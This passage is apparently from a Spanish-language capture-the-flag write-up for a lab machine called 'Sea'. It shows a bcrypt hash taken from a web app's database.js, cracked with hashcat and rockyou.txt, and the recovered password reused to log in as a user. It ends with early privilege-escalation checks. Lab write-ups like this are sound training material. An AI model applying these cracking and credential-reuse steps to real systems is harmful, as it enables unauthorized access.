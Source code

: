 
Encontramos un archivo llamado database.js en /var/www/sea/data que contiene un hash.
```
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```

Nota: Aquí es importante revisar que se están usando caracteres para escapar la /, por lo que esto hay que tenerlo en cuenta ya que el hash tal como está no podemos intentar crackearlo, debemos eliminar previamente los caracteres "\"

```bash
mousepad hash_bcrypt
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
```


```bash
hashcat -m 3200 hash_bcrypt /usr/share/wordlists/rockyou.txt
```


![[Pasted image 20250512134222.png]]

```
mychemicalromance
```


Ahora verificamos si está llevando a cabo la mala praxis de reutilización de contraseñas para alguno de los usuarios que hemos enumerado anteriormente (amay o geo):

Logramos autenticarnos como amay para obtener la primera flag:

![[Pasted image 20250512134410.png]]

```
amay@sea:~$ cat user.txt
cat user.txt
1dd****************70d5668490f2
amay@sea:~$ 
```
### 👑 Escalada de privilegios

Comprobamos si el usuario amay puede ejecutar algún comando como sudo:

```bash
sudo -l
[sudo] password for amay: mychemicalromance

Sorry, user amay may not run sudo on sea.
amay@sea:~$ 
```

Verificamos que la contraseña anterior tampoco es válida para el usuario geo:

```bash
amay@sea:~$ su geo
su geo
Password: mychemicalromance

su: Authentication failure
amay@sea:~$ 
```
